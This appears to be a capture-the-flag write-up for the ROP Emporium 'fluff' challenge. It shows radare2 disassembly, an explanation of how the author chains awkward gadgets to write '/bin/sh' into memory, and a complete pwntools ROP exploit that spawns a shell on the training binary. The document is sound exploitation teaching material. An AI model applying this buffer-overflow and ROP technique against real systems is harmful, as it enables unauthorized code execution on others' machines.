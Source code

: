 # fluff

Downloading, unzipping, and running the [challenge file](https://ropemporium.com/binary/fluff.zip):

```sh
$ ./fluff
fluff by ROP Emporium
64bits

You know changing these strings means I have to rewrite my solutions...
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    24567 segmentation fault (core dumped)  ./fluff
```

The intro text for this challenge says:
 > The concept here is identical to the write4 challenge. The only difference is we may struggle to find gadgets that will get the job done. If we take the time to consider a different approach we'll succeed.

Let's fire up radare and see:
```asm
$ r2 -A fluff
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Type matching analysis for all functions (afta)
[x] Use -AA or aaaa to perform additional experimental analysis.
 -- [INSERT SPECIOUS BANALITY HERE]

[0x00400650]> pd @ sym.usefulFunction 
/ (fcn) sym.usefulFunction 17
|   sym.usefulFunction ();
|           0x00400807      55             push rbp
|           0x00400808      4889e5         mov rbp, rsp
|           0x0040080b      bf5b094000     mov edi, str.bin_ls         ; 0x40095b ; "/bin/ls" ; const char *string
|           0x00400810      e8cbfdffff     call sym.imp.system         ; int system(const char *string)
|           0x00400815      90             nop
|           0x00400816      5d             pop rbp
\           0x00400817      c3             ret
            0x00400818      0f1f84000000.  nop dword [rax + rax]
            ;-- questionableGadgets:
            0x00400820      415f           pop r15
            0x00400822      4d31db         xor r11, r11
            0x00400825      415e           pop r14
            0x00400827      bf50106000     mov edi, loc.__data_start   ; 0x601050
            0x0040082c      c3             ret
            0x0040082d      415e           pop r14
            0x0040082f      4d31e3         xor r11, r12
            0x00400832      415c           pop r12
            0x00400834      41bd60406000   mov r13d, 0x604060          ; '`@`'
            0x0040083a      c3             ret
            0x0040083b      bf50106000     mov edi, loc.__data_start   ; 0x601050
            0x00400840      4d87d3         xchg r11, r10
            0x00400843      415f           pop r15
            0x00400845      41bb50206000   mov r11d, 0x602050          ; 'P `'
            0x0040084b      c3             ret
            0x0040084c      415f           pop r15
            0x0040084e      4d891a         mov qword [r10], r11
            0x00400851      415d           pop r13
            0x00400853      415c           pop r12
            0x00400855      453022         xor byte [r10], r12b
            0x00400858      c3             ret
            0x00400859      0f1f80000000.  nop dword [rax]
```

This *is* similar to the [write4](../write4/README.md) challenge.

The significant difference is that instead of the `usefulGadgets` we had last time, we're instead presented with these `questionableGadgets`.

We still want to be able to write our string to memory and then pop the address of that string into our `rdi` register. 

We can use the same technique as last time to find the appropriate data address.

This time, we just need to figure out how to make these gadgets work for us.

Some things immediately stand out:
 - `xor r11, r11` will zero out the `r11` register
 - if `r11` is zero, `xor r11, r12` will put the contents of `r12` into `r11`
 - `mov qword [r10], r11` will put the contents of `r11` into the address pointed to by `r10`, but it's followed by a `xor byte [r10], r12b` so we'll need to be cognizant of that. If we don't, it will mangle our string.
 - `xchg r11, r10` is our opportunity to set `r10` since we can set `r11` to arbitrary values

With the above in mind, the only remaining tricky part is dealing with the `xor byte [r10], r12b` at the end of our `mov` gadget.

Since that gadget also gives us control of `r12`, we can simply `xor` the first byte of our string by the same value we pop into `r12`:

```python
from pwn import *
prog = process("./fluff")

data_addr = p64(0x00601050)
system_call = p64(0x00400810)
pop_rdi = p64(0x004008c3)

# 0x0000000000400822: xor r11, r11; pop r14; mov edi, 0x601050; ret;
xor_r11_r11_pop_r14 = p64(0x00400822) # clears r11

# 0x0000000000400840: xchg r11, r10; pop r15; mov r11d, 0x602050; ret;
xchg_r11_r10_pop_r15_mov_r11 = p64(0x00400840)

# 0x000000000040082f: xor r11, r12; pop r12; mov r13d, 0x604060; ret;
xor_r11_r12_pop_r12_mov_r13 = p64(0x0040082f)

# 0x004008bc               415c  pop r12
# 0x004008be               415d  pop r13
# 0x004008c0               415e  pop r14
# 0x004008c2               415f  pop r15
# 0x004008c4                 c3  ret
pop_r12_r13_r14_r15 = p64(0x004008bc)

# 0x0040084e             4d891a  mov qword [r10], r11
# 0x00400851               415d  pop r13
# 0x00400853               415c  pop r12
# 0x00400855             453022  xor byte [r10], r12b
# 0x00400858                 c3  ret
mov_r11_r10_pop_r13_pop_r12_xor_r10_r12 = p64(0x0040084e)

payload = "A" * 40

payload += xor_r11_r11_pop_r14; # clear r11
payload += p64(0xaa) # junk for the r14 pop

payload += pop_r12_r13_r14_r15
payload += data_addr # pop into r12 in order to get xor'd into r11
payload += p64(0xaa) # junk for the r13 pop
payload += p64(0xaa) # junk for the r14 pop
payload += p64(0xaa) # junk for the r15 pop

payload += xor_r11_r12_pop_r12_mov_r13 # xor r12 (which holds our data addr) into r11
payload += p64(0xaa) # junk for the r12 pop

payload += xchg_r11_r10_pop_r15_mov_r11 # exchange our data addr from r11 into r10
payload += p64(0xaa) # junk for the r15 pop

payload += xor_r11_r11_pop_r14; # clear r11
payload += p64(0xaa) # junk for the r14 pop

payload += pop_r12_r13_r14_r15 # pop our string into r12 in order to get xor'd into r11
payload += (chr(0x2f ^ 0x11) + "bin/sh\0")
payload += p64(0xaa) # junk for the r13 pop
payload += p64(0xaa) # junk for the r14 pop
payload += p64(0xaa) # junk for the r15 pop

payload += xor_r11_r12_pop_r12_mov_r13 # xor r12 (which holds our string) into r11
payload += p64(0x11) # junk for the r12 pop

payload += mov_r11_r10_pop_r13_pop_r12_xor_r10_r12 # mov our string from r11 into area of memory pointed to by r10
payload += p64(0xaa) # junk for the r13 pop
payload += p64(0x11) # the byte we'll want to xor against the first byte of our string

# Put our data address into rdi and jump to system call
payload += pop_rdi
payload += data_addr
payload += system_call

print prog.sendlineafter("> ", payload)

prog.interactive()
```

Run it!

```sh
$ python exploit.py
[+] Starting local process './fluff': pid 29227
fluff by ROP Emporium
64bits

You know changing these strings means I have to rewrite my solutions...

[*] Switching to interactive mode
$ cat flag.txt
ROPE{a_placeholder_32byte_flag!}
```
😼
